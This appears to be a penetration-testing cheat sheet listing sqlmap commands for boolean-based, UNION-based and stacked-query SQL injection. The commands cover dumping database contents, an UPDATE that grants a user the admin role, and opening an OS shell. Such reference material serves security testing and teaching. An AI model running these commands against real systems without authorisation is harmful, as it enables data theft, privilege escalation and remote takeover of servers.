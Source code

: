 #### Boolean-Based Blind SQL Injection
Boolean-based blind SQL injection involves sending payloads that result in true or false responses, allowing the attacker to infer data.

1. **Testing for Boolean-Based Blind SQL Injection**: Attempts to exploit boolean-based blind SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=B
    ```
2. **Enumerating Database Names**: Enumerates databases using boolean-based techniques.
    ```bash
    sqlmap -u <target_url> --technique=B --dbs
    ```
3. **Dumping Data via Boolean-Based Injection**: Dumps data using boolean-based blind SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=B --dump
    ```

#### UNION Query-Based SQL Injection
UNION-based SQL injection leverages the UNION SQL operator to combine results from multiple queries into a single result.

1. **Testing for UNION-Based SQL Injection**: Attempts to exploit UNION-based SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=U
    ```
2. **Determining the Number of Columns**: Tests for the number of columns needed in the UNION query.
    ```bash
    sqlmap -u <target_url> --technique=U --union-cols=1-10
    ```
3. **Dumping Data via UNION-Based Injection**: Dumps data using UNION-based SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=U --dump
    ```

#### Stacked Queries SQL Injection
Stacked queries allow for the execution of multiple SQL commands in a single query.

1. **Testing for Stacked Queries**: Attempts to exploit stacked queries SQL injection.
    ```bash
    sqlmap -u <target_url> --technique=S
    ```
2. **Executing Arbitrary SQL Commands**: Executes an arbitrary SQL command using stacked queries.
    ```bash
    sqlmap -u <target_url> --technique=S --sql-query="UPDATE users SET role='admin' WHERE username='user'"
    ```
3. **Executing OS Commands via Stacked Queries**: Opens an OS shell if the database allows for command execution via stacked queries.
    ```bash
    sqlmap -u <target_url> --technique=S --os-shell
    ```
